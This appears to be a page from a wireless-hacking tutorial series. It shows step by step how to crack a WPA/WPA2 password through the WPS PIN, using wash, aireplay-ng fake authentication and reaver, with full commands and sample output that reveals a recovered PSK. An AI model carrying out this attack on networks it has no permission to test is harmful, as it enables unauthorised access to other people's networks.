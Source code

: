 ```yaml
---
title: Cracking WPA and WPA2 Without a Wordlist
type: default
layout: page
child: Cracking
fold: Network Cracking
---
```


Now that we know what WPS is and how it can be used to recover the password for
WPA and WPA2 networks, let's see how to do that in practise.

Usually, we use airodump-ng to see all the networks around us, but now we want
to see the networks that have WPS enabled. We will be using a tool called _wash_
to display all the networks around us that have WPS enabled. So, let's execute:

```bash
wash --interface wlp2s0mon
```

What that command does, is execute a tool called _wash_ and we are also
specifying our wireless interface set in monitor mode, in my case _wlp2s0mon_.
If we execute that command, we should get an output like the following:

```bash
Wash v1.4 WiFi Protected Setup Scan Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

BSSID                  Channel       RSSI       WPS Version       WPS Locked        ESSID
---------------------------------------------------------------------------------------------------------------
9C:C8:FC:4D:10:CA      6              -53       1.0               No                TIGO-7A54
```

As you can see, _wash_ returned one network _TIGO-7A54_ which is my target
network, that means, that it has WPS on.

Its output shows us several important things, such as the value of "_WPS
Locked_" which tell us whether WPS is locked or not because sometimes WPS locks
after a number of failed attempts, if its value is "No" it means that we can go
ahead and try to guess the PIN. It also gives us the version WPS, it is using
the version 1.0 and it shows some other values we already know, such as the
_Channel_ and the _BSSID_.

Now that we know our target uses WPS, there is a good chance that this attack
will work against it, the only reason it could fail is if the target uses _PBC_
or _Push Button Authentication_, if it does, it will refuse all the entered
PINs unless the button is pressed on the router. The only way to know if it uses
_PBC_ is so try this attack and see if it works.

First, we'll need to copy the BSSID of our network (in my case it is
_9C:C8:FC:4D:10:CA_) and we'll also need to be associated with the network using
a _Fake Authentication Attack_, we already did this before and we are going to
use the exact same command.

We are going to use _aireplay-ng_ and we are going to tell it that we want to
perform a Fake Authentication attack so we specify the argument _--fakeauth_, we
are going to give it the delay, this is basically the time to wait between
association attempts, previously we set it to 0 and we had to run this command
manually every now and then, now I am going to set it to 30 so we will associate
with the target network every 30 seconds, then we'll use the _-a_ argument to
set the MAC address of my target network and _-h_ to set the MAC of my wireless
adapter. The command looks like this:

```bash
aireplay-ng --fakeauth 30 -a 9C:C8:FC:4D:10:CA -h 80:C5:F2:6B:50:8D wlp2s0mon
```

The command is ready we are not going to execute it yet. Open another terminal
and run _reaver_ which is the program that will bruteforce (_guess_) the PIN for
us and only then, we'll associate with the network, because otherwise
_aireplay-ng_ will fail to associate with my network.

In the another terminal, we will execute _Reaver_ which is the program that will
bruteforce the PIN, it's going to try every possible PIN until it gets the right
one and once it has the right PIN, it will use it to compute the WPA key.

Using _Reaver_ is very simple, first, we'll type the program name (_reaver_)
then we'll use the _--bssid_ argument to set the BSSID of our target network,
then, we'll use the _--channel_ argument, to specify the channel in which our
target is being executed, then we'll use the _--interface_ argument to set the
name of our interface in monitor mode. That command looks like this:

```bash
reaver --bssid 9C:C8:FC:4F:10:CA --channel 6 --interface wlp2s0mon
```

Other than that, we'll append two more arguments which are _-vvv_ to show us as
much information as possible (also known as _verbose mode_) and we'll also
append _--no-associate_ to tell _Reaver_ not to associate with the target
network because we are going to do it manually. Reaver can automatically
associate with the network but it usually fails a lot, therefore, it is better
to associate to the network manually. The final command looks like this:

```bash
reaver --bssid 9C:C8:FC:4F:10:CA --channel 6 --interface wlp2s0mon -vvv --no-associate
```

Now, we are going to execute the _reaver_'s command and then, we'll associate
ourselves with the network. A portion of the _reaver_'s output looks like this:

```bash

Reaver v1.6.1 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching wlp2s0mon to channel 6
[+] Waiting for beacom from 9C:C8:FC:4F:10:CA
[+] Associated with 9C:C8:FC:4F:10:CA (ESSID: TIGO-7A54)
[+] Trying pin "12345670"
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[!] WARNING: Receive timeout occurred
[+] Sending WSC NACK
[!] WPS transaction failed (code: 0x02), re-trying last pin

```

Once it finds the PIN you'd get an output like the following:

```bash
[+] Trying ping "12345670"
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 57 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'passw123'
[+] AP SSID: 'TIGO-7A54'
[+] Nothing done, nothing to save
```

As you can see, the PIN was 12345670, from that, it was able to discover the WPA
key which is "passw123" and the name of the router is "TIGO-7A54", so now we can
go ahead and connect with that password.
